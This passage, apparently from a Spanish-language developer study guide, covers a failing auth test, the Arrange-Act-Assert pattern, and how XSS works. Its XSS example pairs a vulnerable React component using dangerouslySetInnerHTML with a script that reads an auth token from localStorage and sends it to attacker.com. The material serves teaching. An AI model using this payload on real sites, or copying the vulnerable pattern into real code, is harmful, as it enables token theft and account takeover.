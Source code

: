 **Con tests:**
```bash
❌ FAIL: debe redirigir a /login si usuario no está autenticado
Expected: "Login Page"
Received: "Dashboard Secreto"
```

### Patrón AAA en tests

**Arrange, Act, Assert:**

1. **Arrange** (Preparar): Configura datos de prueba, mocks
2. **Act** (Actuar): Ejecuta la función que estás testeando
3. **Assert** (Afirmar): Verifica que el resultado es el esperado

---

## 4. ¿Qué es XSS y cómo prevenirlo?

### Respuesta Corta
**XSS (Cross-Site Scripting)** es cuando un atacante inyecta código JavaScript malicioso en tu aplicación para robar datos o hacer acciones no autorizadas.

### Respuesta Completa

#### ¿Cómo funciona un ataque XSS?

**Escenario de ataque:**

Tu app tiene un campo de comentarios:
```tsx
// ❌ CÓDIGO VULNERABLE
const Comment = ({ text }) => {
    return <div dangerouslySetInnerHTML={{ __html: text }} />
}
```

Atacante escribe este "comentario":
```html
<script>
    // Roba el token del localStorage
    const token = localStorage.getItem('auth-storage')

    // Lo envía a su servidor
    fetch('https://attacker.com/steal?token=' + token)
</script>
```

**Lo que pasa:**
1. ✅ Atacante publica el comentario
2. ✅ Víctima abre la página
3. ✅ El script malicioso se ejecuta en el navegador de la víctima
4. ✅ El token se envía al servidor del atacante
5. ❌ **Atacante ahora tiene acceso a la cuenta de la víctima**
